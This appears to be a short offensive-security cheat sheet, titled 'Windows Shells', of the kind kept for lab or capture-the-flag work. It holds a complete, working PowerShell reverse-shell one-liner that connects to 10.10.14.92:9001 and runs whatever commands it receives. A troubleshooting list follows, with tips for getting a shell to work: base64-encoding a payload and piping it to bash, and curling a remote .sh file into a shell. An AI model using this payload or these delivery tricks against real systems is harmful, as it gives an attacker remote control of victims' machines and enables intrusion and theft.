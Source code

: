 # Windows Shells

## Powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.92',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Troubleshooting

Why isn't my shell working?
- try base64 encoding and piping to `base64 -d | bash`
- try specifying `/bin/sh`
- try a staged payload
- try curling a `.sh` file into `sh` or `bash`